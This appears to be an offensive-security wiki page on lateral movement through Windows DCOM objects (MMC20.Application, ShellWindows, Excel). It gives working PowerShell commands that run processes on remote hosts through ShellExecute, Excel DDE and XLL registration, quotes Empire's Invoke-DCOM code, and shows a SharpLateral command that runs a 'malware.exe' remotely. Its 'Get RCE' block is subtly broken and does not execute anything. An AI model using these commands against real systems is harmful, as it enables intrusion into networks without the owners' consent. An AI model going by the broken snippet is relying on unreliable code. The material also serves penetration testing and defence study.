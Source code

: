 # DCOM Exec


## MMC20.Application

**For more info about this technique chech the original post from [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**


Distributed Component Object Model (DCOM) objects present an interesting capability for network-based interactions with objects. Microsoft provides comprehensive documentation for both DCOM and Component Object Model (COM), accessible [here for DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) and [here for COM](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). A list of DCOM applications can be retrieved using the PowerShell command:

```bash
Get-CimInstance Win32_DCOMApplication
```

The COM object, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), enables scripting of MMC snap-in operations. Notably, this object contains a `ExecuteShellCommand` method under `Document.ActiveView`. More information about this method can be found [here](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). Check it running:

This feature facilitates the execution of commands over a network through a DCOM application. To interact with DCOM remotely as an admin, PowerShell can be utilized as follows:

```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```

This command connects to the DCOM application and returns an instance of the COM object. The ExecuteShellCommand method can then be invoked to execute a process on the remote host. The process involves the following steps:

Check methods:

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```

Get RCE:

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```

## ShellWindows & ShellBrowserWindow

**For more info about this technique check the original post [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

The **MMC20.Application** object was identified to lack explicit "LaunchPermissions," defaulting to permissions that permit Administrators access. For further details, a thread can be explored [here](https://twitter.com/tiraniddo/status/817532039771525120), and the usage of [@tiraniddo](https://twitter.com/tiraniddo)’s OleView .NET for filtering objects without explicit Launch Permission is recommended.

Two specific objects, `ShellBrowserWindow` and `ShellWindows`, were highlighted due to their lack of explicit Launch Permissions. The absence of a `LaunchPermission` registry entry under `HKCR:\AppID\{guid}` signifies no explicit permissions.

###  ShellWindows
For `ShellWindows`, which lacks a ProgID, the .NET methods `Type.GetTypeFromCLSID` and `Activator.CreateInstance` facilitate object instantiation using its AppID. This process leverages OleView .NET to retrieve the CLSID for `ShellWindows`. Once instantiated, interaction is possible through the `WindowsShell.Item` method, leading to method invocation like `Document.Application.ShellExecute`.

Example PowerShell commands were provided to instantiate the object and execute commands remotely:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```

### Lateral Movement with Excel DCOM Objects

Lateral movement can be achieved by exploiting DCOM Excel objects. For detailed information, it's advisable to read the discussion on leveraging Excel DDE for lateral movement via DCOM at [Cybereason's blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom).

The Empire project provides a PowerShell script, which demonstrates the utilization of Excel for remote code execution (RCE) by manipulating DCOM objects. Below are snippets from the script available on [Empire's GitHub repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), showcasing different methods to abuse Excel for RCE:

```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $isx64 = [boolean]$obj.Application.ProductCode[21]
    Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $Obj.DisplayAlerts = $false
    $Obj.DDEInitiate("cmd", "/c $Command")
}
```

### Automation Tools for Lateral Movement

Two tools are highlighted for automating these techniques:

- **Invoke-DCOM.ps1**: A PowerShell script provided by the Empire project that simplifies the invocation of different methods for executing code on remote machines. This script is accessible at the Empire GitHub repository.

- **SharpLateral**: A tool designed for executing code remotely, which can be used with the command:

```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```


## Automatic Tools

* The Powershell script [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) allows to easily invoke all the commented ways to execute code in other machines.
* You could also use [**SharpLateral**](https://github.com/mertdas/SharpLateral):

```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```

## References

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

